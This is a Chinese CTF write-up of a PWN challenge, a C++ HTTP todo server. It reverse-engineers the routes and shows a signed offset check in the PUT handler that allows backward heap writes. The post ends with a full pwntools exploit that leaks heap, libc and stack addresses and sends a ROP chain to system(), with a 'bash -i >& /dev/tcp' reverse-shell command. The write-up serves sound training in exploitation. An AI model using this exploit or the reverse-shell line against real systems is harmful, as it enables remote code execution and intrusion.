# 第十八届信息安全大赛 && 第二届长城杯 0解PWN题--server解法-先知社区

> **来源**: https://xz.aliyun.com/news/16215  
> **文章ID**: 16215

---

# server

比赛方只提供了`ld`和`libc`，但是题目运行还需要其他链接库，如下  
  
解决方法是通过docker下载对应的ubuntu版本  
  
把对应的链接库给拖出来就行

## 代码审计

  
在main函数里似乎是定义了和添加了路由

我们先刨析一个

```
sub_383A8(v23, sub_AC9B);
  v13 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/register", (__int64)&v9);
  sub_20136((__int64)&unk_D8820, (__int64)v22, (__int64)v23);
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);

```

第一行这里似乎就是添加路由跳转函数

```
sub_383A8(v23, sub_AC9B);

```

我们进入这个`sub_AC9B`这里看



印证了我们的想法

那么第二段就很明显是路由触发`url`

```
sub_2AE40((__int64)v22, (__int64)"/register", (__int64)&v9);

```

根据我们发包，发现只有`post`的时候会进入`/register`



所以我们测试了一下发现了这个



通过`sub_20136`函数之后，都是需要通过`POST`发包的才能触发

后面根据我们分析结合调试之后，得到这个

```
sub_383A8(v23, sub_AC9B);
  v13 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/register", (__int64)&v9);
  sub_20136((__int64)&unk_D8820, (__int64)v22, (__int64)v23);// POST
  std::string::~string(v22); 
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_B200);
  v14 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/login", (__int64)&v9);
  sub_20136((__int64)&unk_D8820, (__int64)v22, (__int64)v23);// POST
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_B8F7);
  v15 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/logout", (__int64)&v9);
  sub_20136((__int64)&unk_D8820, (__int64)v22, (__int64)v23);// POST
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_C2C8);
  v16 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/todos", (__int64)&v9);
  sub_20136((__int64)&unk_D8820, (__int64)v22, (__int64)v23);// POST
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_CBC7);
  v17 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/todos/(\\d+)", (__int64)&v9);// GET
  sub_2006C(&unk_D8820, v22, v23);
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_D15D);
  v18 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/todos", (__int64)&v9);
  sub_2006C(&unk_D8820, v22, v23);// GET
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_D590);
  v19 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/todos/(\\d+)(?:/(\\d+))?", (__int64)&v9);
  sub_20200(&unk_D8820, v22, v23);// PUT
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);
  sub_383A8(v23, sub_DD5E);
  v20 = &v9;
  sub_2AE40((__int64)v22, (__int64)"/todos/(\\d+)", (__int64)&v9);
  sub_202CA(&unk_D8820, v22, v23);// DELETE
  std::string::~string(v22);
  sub_384A2();
  sub_1F6F6(v23);

```

### 登录

根据代码分析，我们使用/todos等系列路由函数时，在前面都有一段这个

```
sub_BFBA((__int64)v16, a1);
  if ( (unsigned __int8)std::string::empty(v16) )
  {
    *(_DWORD *)(a2 + 32) = 403;
    v9 = &v5;
    sub_2AE40((__int64)v19, (__int64)"text/plain", (__int64)&v5);
    v10 = &v4;
    sub_2AE40((__int64)v18, (__int64)"Unauthorized", (__int64)&v4);
    sub_1DB4A(a2, (__int64)v18, (__int64)v19);
    std::string::~string(v18);
    sub_384A2();
    std::string::~string(v19);
    sub_384A2();
  }

```

这里先不考虑里面是否有漏洞，这里我们先通过`/register`和`/login`进行注册与登录

`/register`里这段我们猜测是我们发包的数据

```
sub_2AE40((__int64)v11, (__int64)"username", (__int64)v6);
  sub_1D1AC((__int64)v7, a1, (__int64)v11, 0LL);
  std::string::~string(v11);
  sub_384A2();
  v6[2] = (__int64)v6;
  sub_2AE40((__int64)v11, (__int64)"password", (__int64)v6);
  sub_1D1AC((__int64)v8, a1, (__int64)v11, 0LL);
  std::string::~string(v11);
  sub_384A2();

```

```
res = response.post(url +"/register",data={"username":'AAAAA',"password":"123456"})
print(res.text)

```



我们有了用户就可以进行登录操作，登录也是一样的发包操作，然后我们查看它的`cookie`

```
response.post(url +"/login",data={"username":'AAAAA',"password":"123456"})
print(response.cookies)

```



那么我们就可以开始对程序的`/todos`部分进行分析了

### /todos路由分析

#### `POST`的`/todos`

```
v13 = &v5;
  sub_2AE40((__int64)v19, (__int64)"size", (__int64)&v5);
  sub_1D1AC((__int64)v17, a1, (__int64)v19, 0LL);
  std::string::~string(v19);
  sub_384A2();
  if ( (unsigned __int8)std::string::empty(v17) != 1 )
  {
    v8 = sub_F547((__int64)v17, 0LL, 0xAu);
    v2 = sub_298DC(qword_D8B60[v6]);
    if ( v8 != v2 )
      sub_29918(qword_D8B60[v6], v8);
  }
  sub_29550(qword_D8B60[v6], a1 + 120, 0);
  sub_2980C(qword_D8B60[v6], v16);
  sub_294D0(qword_D8B60[v6], v6);
  v14 = &v5;
  sub_2AE40((__int64)v18, (__int64)"Todo created with id: ", (__int64)&v5);
  sub_384A2();
  sub_F69A((__int64)v19, v6);
  std::string::operator+=(v18, v19);
  std::string::~string(v19);
  v15 = &v5;
  sub_2AE40((__int64)v19, (__int64)"text/plain", (__int64)&v5);
  sub_1DAD2(a2, v18, v19);
  std::string::~string(v19);
  sub_384A2();
  std::string::~string(v18);
  std::string::~string(v17);

```

实现了类似于，堆块申请的过程，并返回`id`值

根据分析，这个结构大致是这样的

```
struct todo{
    char * content;
    int _if_size;
    int size;
    char * todo_author;
}

```

#### `GET`的`/todos/(\\d+)`

这里程序使用了正则匹配，我们可以直接通过GPT分析，这里就不进行讨论

```
v13 = &v7;
      sub_2AE40((__int64)v16, (__int64)"Todo content: ", (__int64)&v7);
      sub_384A2();
      sub_2970E(v17, qword_D8B60[v8]); //把content数据拿出来
      std::string::operator+=(v16, v17);
      std::string::~string(v17);
      v14 = &v7;
      sub_2AE40((__int64)v17, (__int64)"text/plain", (__int64)&v7);
      sub_1DAD2(a2, v16, v17);
      std::string::~string(v17);
      sub_384A2();
      std::string::~string(v16);

```

这里我们直接使用这样就可以打印对应的`id`的`todo`的内容

```
res = response.get(url +"/todos/1")

```

#### `PUT`的`/todos/(\\d+)(?:/(\\d+))?`

这里分析这个是修改内容的路由函数

```
sub_29550(qword_D8B60[v13], a1 + 120, v12);
  *(_DWORD *)(a2 + 32) = 200;
  v18 = &v11;
  sub_2AE40((__int64)v22, (__int64)"text/plain", (__int64)&v11);
  v19 = &v10;
  sub_2AE40((__int64)v21, (__int64)"Todo updated", (__int64)&v10);

```

深入分析一下这个

```
sub_29550(qword_D8B60[v13], a1 + 120, v12);

```

`sub_29550`函数

```
unsigned __int64 __fastcall sub_29550(__int64 a1, __int64 a2, signed int a3)
{
  std::invalid_argument *exception; // rbx
  std::invalid_argument *v4; // rbx
  size_t v5; // rbx
  const void *v6; // rax
  int v9; // [rsp+2Ch] [rbp-24h]
  void *dest; // [rsp+30h] [rbp-20h]
  unsigned __int64 v11; // [rsp+38h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  if ( a3 >= *(_DWORD *)(a1 + 8) )
  {
    exception = (std::invalid_argument *)__cxa_allocate_exception(0x10uLL);
    std::invalid_argument::invalid_argument(exception, "Invalid offset");
    __cxa_throw(
      exception,
      (struct type_info *)&`typeinfo for'std::invalid_argument,
      (void (__fastcall *)(void *))&std::invalid_argument::~invalid_argument);
  }
  v9 = *(_DWORD *)(a1 + 8) - a3;
  if ( v9 < (unsigned __int64)std::string::size(a2) )
  {
    v4 = (std::invalid_argument *)__cxa_allocate_exception(0x10uLL);
    std::invalid_argument::invalid_argument(v4, "Content too long for the specified buffer location");
    __cxa_throw(
      v4,
      (struct type_info *)&`typeinfo for'std::invalid_argument,
      (void (__fastcall *)(void *))&std::invalid_argument::~invalid_argument);
  }
  dest = (void *)sub_293E4(a1, (unsigned int)a3);
  v5 = std::string::size(a2);
  v6 = (const void *)std::string::c_str(a2);
  memcpy(dest, v6, v5);
  return v11 - __readfsqword(0x28u);
}

```

从这段就可以看出来是进行`content`的修改

```
dest = (void *)sub_293E4(a1, (unsigned int)a3);
  v5 = std::string::size(a2);
  v6 = (const void *)std::string::c_str(a2);
  memcpy(dest, v6, v5);

```

代码分析之后，可以发现如下：

举个例子，我们如果url是这个`/todos/0/10`，那么程序是修改的是id值为0的`todo`，把该`todo`的`content`的地址加`10`的位置进行修改

这里有个漏洞在这里

```
if ( a3 >= *(_DWORD *)(a1 + 8) )
  {
    exception = (std::invalid_argument *)__cxa_allocate_exception(0x10uLL);
    std::invalid_argument::invalid_argument(exception, "Invalid offset");
    __cxa_throw(
      exception,
      (struct type_info *)&`typeinfo for'std::invalid_argument,
      (void (__fastcall *)(void *))&std::invalid_argument::~invalid_argument);
  }

```

这里`a3`和`*(_DWORD *)(a1 + 8)`的比对是有符号的比对，所以我们可以通过给它一个负数就可以向上修改

所以我们来测试，我们构造发包

```
res = response.put(url +"/todos/1/{}".format(str(-0x40&0xffffffff)),data=b"\x40")

```

这里我们看到content的地址是`0x55cd8791f570`，如果我们成功验证这个漏洞的话，我们在memcpy里，dest就应该是`0x55cd8791f530`



然后我们跳到`memcpy`位置



发现确实向上变成了`0x55cd8791f530`，然后我们就可以对其修改

### 思路

我们可以任意向上写，那么我们可以修改对应`todo`的`content`指针，把`heap`和`libc`地址给泄露出来，然后就可以实现任意地址写，但是由于是c++程序，对于函数的使用IO\_File没有研究，这里使用的是泄露栈地址，进行ROP攻击

#### 难点

可以发现，我们进入到路由函数的时候，栈不是我们默认里面的栈地址，没有找到对应可以百分百准确泄露出来的地址，如果有师傅知道怎么准确泄露可以指点一下，我们根据计算，我们需要修改的栈在对应libc的地址偏移是有常见的下面几个值

```
res = response.put(url +"/todos/1/0",data=p64(libc.address - 0x8ef938))
res = response.put(url +"/todos/1/0",data=p64(libc.address - 0xee938))
```

我才用的是把对应的偏移的位置全部覆盖一次，如果成功了就会执行我们ROP链，然后把shell给弹出来

### exp

```
from pwn import*
import requests
context(arch='i386', os='linux',log_level="debug")
context.terminal=["wt.exe","wsl.exe"]
#libc = ELF("../libc/")
libc = ELF("./libc.so.6")
"""""
def xxx():
    p.sendlineafter("")
    p.sendlineafter("")
    p.sendlineafter("")
"""

def get_p(name):
    global p,elf 
    p = process(name)
    #p = remote("")
    elf = ELF(name)

get_p("./pwn")
url = "http://127.0.0.1:9999"
# url = "http://47.94.85.236:36907"
response = requests.session()
# gdb.attach(p,"b *$rebase(0xx000D992)")
# sleep(2)
res = response.post(url +"/register",data={"username":'AAAAA',"password":"123456"})
print(res.text)
response.post(url +"/login",data={"username":'AAAAA',"password":"123456"})
print(response.cookies)

res = response.post(url +"/todos",data={"size":0x80000})
print(res.text)
res = response.post(url +"/todos",data={"size":0x200})
print(res.text)
res = response.post(url +"/todos",data={"size":0x200})
print(res.text)
gdb.attach(p,"b *$rebase(0x000D992)")
sleep(2)

res = response.put(url +"/todos/1/{}".format(str(-0x40&0xffffffff)),data=b"\x40")


res = response.get(url +"/todos/1")
# print(res.text)
test = res.text

heap = u64(test[len("Todo content: "):].ljust(0x8,"\x00")) 
# print(test)


# res = response.put(url +"/todos/1/{}".format(str(-0x260+2&0xffffffff)),data=b"A")

res = response.put(url +"/todos/1/{}".format(str(-0x10&0xffffffff)),data=p64(heap-0x270))

res = response.get(url +"/todos/1")
print(res.text)
test = res.text
libc_addr = u64(test[len("Todo content: "):].ljust(0x8,"\x00")) 
# res = response.delete(url +"/todos/1")
print(hex(libc_addr))
print(hex(libc_addr+0x997fff0))
libc.address = libc_addr + 0x997fff0
print(res.text)


res = response.put(url +"/todos/1/0",data=p64(libc.sym['environ']))
res = response.get(url +"/todos/0")

print(res.text)
test = res.text
stack_addr = u64(test[len("Todo content: "):].ljust(0x8,"\x00"))  - 0x300 - 0x30
print(hex(stack_addr))

res = response.put(url +"/todos/1/0",data=p64(libc.address - 0x8ef938))

res = response.put(url +"/todos/2/0",data=b'bash -c "sh -i >& /dev/tcp/127.0.0.1/2333 0>&1"')

# gdb.attach(p,"b *$rebase(0x000002968C)")
# sleep(2)

cmd = heap + 0x270
pop_rdi = 0x000000000010f75b + libc.address
res = response.put(url +"/todos/0/0",data=p64(pop_rdi+1)+ p64(pop_rdi) + p64(cmd)+p64(libc.sym['system']))

raw_input()
res = response.put(url +"/todos/1/0",data=p64(libc.address - 0xee938))
res = response.put(url +"/todos/0/0",data=p64(pop_rdi+1)+ p64(pop_rdi) + p64(cmd)+p64(libc.sym['system']))

p.interactive()

```

概率还是蛮高的，但是远程环境没有办法验证了



然后执行我们的弹`shell`命令


成功


